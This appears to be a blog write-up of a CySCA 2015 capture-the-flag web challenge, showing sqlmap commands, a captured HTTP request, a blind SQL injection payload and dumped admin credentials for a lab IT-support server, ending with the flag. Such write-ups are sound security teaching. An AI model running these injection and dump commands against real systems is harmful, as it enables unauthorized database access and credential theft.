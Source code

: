 ```yaml
---
title: CySCA 2015 - Web Application Pentest 5 - Turn it On & Off Again
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


As an executive, we notice we've got some additional functionality. We notice 
another menu item "IT Support" and the "Executive Board" option on the home
page. 

Since the challenge is called "Turn it on and off", we will have a poke around 
the IT support section.

The IT Section appears to be an area which allows users to submit IT Tickets. We
notice that it makes API requests to another server, namely `support.ecwi.cysca`.

Loading the list of tickets, we notice a POST request to 
`http://support.ecwi.cysca/ticket/get`, with the payload: 
`{uid: "5", secret: "4Da20BBfG19362c1b4ad6dea4A3aE9G3"}`.  The returned 
data is just a JSON list of tickets. 

Since we haven't had an SQL challenge yet, we pull out SQLMap and try to 
see what we can find. 

We copy the request from burp and save it into a file called tickets.txt:

{% highlight text %}
POST /ticket/get HTTP/1.1
Host: support.ecwi.cysca
Proxy-Connection: keep-alive
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://10.0.0.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
Content-Type: application/json; charset=UTF-8
Referer: http://10.0.0.2/service/tickets
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8

{"uid":"5","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
{% endhighlight %}


Lets run sqlmap using that request. `sqlmap -r tickets.txt`. When burp asks 
"JSON data found in POST data. Do you want to process it? [Y/n/q]", we answer 
with "y"

{% highlight text %}
[18:12:04] [WARNING] (custom) POST parameter 'JSON uid' does not appear dynamic
[18:12:04] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401)
[18:12:04] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 2 times
{% endhighlight %}


Hmm, 401 errors. That's okay. We do some googling, and find that sqlmap actually
has an option to ignore 401 errors (provided you're running the latest version 
- 1.0-dev-69bc875). We run again, this time using 
`sqlmap -r tickets.txt --ignore-401`

{% highlight text %}
[18:12:39] [WARNING] (custom) POST parameter 'JSON secret' is not injectable
{% endhighlight %}

Still no dice. Let's increase the level: `sqlmap -r tickets.txt  --ignore-401 --level=3`.
That did the job:

{% highlight text %}
sqlmap identified the following injection point(s) with a total of 187 HTTP(s) requests:
---
Parameter: JSON uid ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"uid":"5" AND 6601=6601 AND "rgyW"="rgyW","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
---
{% endhighlight %}

Awesome. Let's get some data out of this database. We use multiple threads to 
speed up the collection, since this is a blind injection. Additionall, it looks 
**totally badass**.
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --tables --threads=10`:

{% highlight text %}
[5 tables]
+----------------+
| ecwidb_replies |
| ecwidb_tickets |
| ecwidb_tokens  |
| ecwidb_users   |
| ticket_replies |
+----------------+
{% endhighlight %}

Users looks like a place we should look. Lets take a look in there: 
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=10`

{% highlight text %}
Table: ecwidb_users
[1 entry]
+---------+-----------+-----------+
| tid     | tusername | tpassword |
+---------+-----------+-----------+
| <blank> | <blank>   | <blank>   |
+---------+-----------+-----------+
{% endhighlight %}

Weird. We google the issue with returning blank results, and find 
[issue 861](https://github.com/sqlmapproject/sqlmap/issues/861). We re-run using
the suggestion of `--time-sec=20`. `sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=2 --time-sec=20`.

{% highlight text %}
Table: ecwidb_users
[1 entry]
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
| 1  | admin    | #d0ntev3nTryn00bz! |
+----+----------+--------------------+
{% endhighlight %}

We've now got the password to the IT support system, however, we don't know 
where to put it. We're going to need to hunt for a login page.

Navigating to `http://support.ecwi.cysca/` gies us a 404 page, so does 
`http://support.ecwi.cysca/login`. Maybe if we try 
`http://support.ecwi.cysca/admin/`. Interesting. We get a Flask/WSGI looking
"Unauthorized" message. Since we know this is some sort of working endpoint, 
we browse to `http://support.ecwi.cysca/admin/login`. Out pops a login page.

We log in, revealing the flag:

> FLAG{4a000000000000000000000000000000}

